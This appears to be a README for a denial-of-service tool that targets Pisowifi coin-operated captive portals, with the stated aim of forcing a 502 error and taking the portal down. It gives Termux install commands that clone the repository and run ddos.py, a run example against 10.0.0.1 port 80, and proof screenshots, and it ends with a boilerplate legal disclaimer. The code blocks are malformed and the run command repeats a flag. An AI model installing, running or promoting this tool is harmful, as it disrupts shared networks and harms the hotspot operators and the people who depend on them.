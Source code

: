 # Pisowifi DDOS
502 Bad Gateway and take down the captive portal.

<div align="center">
<img src="https://github.com/xiv3r/pisowifi-ddos/blob/main/image/proof.png">
</div>

# Requirements
- Termux

# Manual Install
```
pkg update && pkg upgrade -y
```
pkg install git python python-pip -y
```
git clone https://github.com/xiv3r/pisowifi-ddos.git
```
cd pisowifi-ddos
```
python3 ddos.py -h
```

# Auto Install
```
pkg update && pkg upgrade -y && pkg install git python python-pip -y && git clone https://github.com/xiv3r/pisowifi-ddos.git && cd pisowifi-ddos && python ddos.py
```
# Run
```
cd pisowifi-ddos
```
```
python3 ddos.py -t 10.0.0.1 -p 80 -t 135
```
<div align="center">
<img src="https://github.com/xiv3r/pisowifi-ddos/blob/main/image/ddos.png">
</div>

### Disclaimer
`"This tool is intended solely for ethical cybersecurity purposes, such as penetration testing, vulnerability assessments, and authorized research. Unauthorized use to disrupt networks, services, or systems is illegal and violates cybersecurity laws. Misuse may result in severe legal penalties, including fines and imprisonment. Always obtain explicit permission before testing any system. By using this tool, you agree to comply with all applicable laws and assume full responsibility for your actions."`
